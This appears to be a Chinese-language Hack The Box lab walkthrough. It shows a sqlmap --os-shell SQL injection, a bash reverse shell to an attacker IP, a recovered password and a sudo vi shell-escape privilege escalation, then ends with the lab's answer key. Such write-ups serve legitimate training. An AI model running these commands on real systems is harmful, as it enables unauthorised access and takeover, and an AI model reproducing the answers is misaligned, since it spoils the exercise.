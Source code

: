 使用sqlmqp:
```
sqlmap -u "http://10.129.230.151/dashboard.php?search=0" --cookie="PHPSESSID=cqt9a9q4q84g1tgr8svgngl9ql" --os-shell
```
![Alt text](../../../picture/HTB/start-point/Snipaste_2024-09-08_20-23-05.png)
在--os-shell的基础上，弹一个反向shell:
```
bash -c "bash -i >& /dev/tcp/10.10.16.41/443 0>&1"
```
![Alt text](../../../picture/HTB/start-point/Snipaste_2024-09-08_20-22-53.png)

找到user.txt
![Alt text](../../../picture/HTB/start-point/Snipaste_2024-09-08_20-29-17.png)


在/var/www/htl/dashboard.php找到的密码
![Alt text](../../../picture/HTB/start-point/Snipaste_2024-09-08_20-34-40.png)
password:P@s5w0rd!

有了密码就可以运行sudo -l:
![Alt text](../../../picture/HTB/start-point/Snipaste_2024-09-09_18-38-33.png)

vi提权的基本操作：
```
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
ESC
:set shell=/bin/sh ENTER
:shell
```

![Alt text](../../../picture/HTB/start-point/Snipaste_2024-09-09_19-10-38.png)



### 除了 SSH 和 HTTP 之外，此盒子上还托管了哪些其他服务？
答案：ftp

### 此服务可以配置为允许使用特定用户名的任何密码登录。那个用户名是什么？
答案：anonymous

### 通过此服务下载的文件的名称是什么？
答案：backup.zip

### John The Ripper 工具集附带了什么脚本，并以允许破解尝试的格式从受密码保护的 zip 存档中生成哈希值？
答案：zip2john

### 网站上管理员用户的密码是什么？
答案：qwerty789
